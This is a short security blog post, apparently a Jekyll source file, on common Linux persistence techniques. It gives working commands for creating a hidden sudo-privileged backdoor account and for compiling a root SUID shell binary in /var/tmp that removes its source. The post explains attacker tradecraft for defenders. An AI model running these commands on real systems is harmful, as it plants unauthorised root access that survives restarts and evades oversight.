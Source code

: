 
---
layout: single
title: "Common Linux Persistence Techniques"
excerpt: "The adversary is attempting to keep their foothold.
Persistence refers to strategies used by adversaries to maintain access to systems despite restarts, changing credentials, and other disruptions that may terminate their access. "
date: 2021-11-10 00:22:00 -0000
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: 
categories: linux
permalink: /linux/persistence
tags: [linux, persistence]

---

# Common Linux Persistence Techniques


This post will cover a few common linux persistence techniques used by adversary to establish permanent access. The adversary is attempting to keep their foothold.
Persistence refers to strategies used by adversaries to maintain access to systems despite restarts, changing credentials, and other disruptions that may terminate their access. 

---
## Creating privilege account

The adversary tends to create a high privilege account to maintain access on the compromised system. They usually create a user with a sudo privilege across the system.

`sudo useradd -p $(openssl passwd -1 $USERPASS) -s /bin/bash -G sudo $USERNAME`
    
## Creating SUID Binary

A binary with its SUID bit set, implying that everything run by the programs will be done with that user's privileges. If the SUID binary is set with root privilege, anyone that run the binary will have access with the root privilege.

	tempdir="/var/tmp"
	echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $tempdir/suid00r.c
	gcc $tempdir/suid00r.c -o $tempdir/suid00r 2>/dev/null
	rm $tempdir/suid00r.c
	chown root:root $tempdir/suid00r
	chmod 4777 $tempdir/suid00r


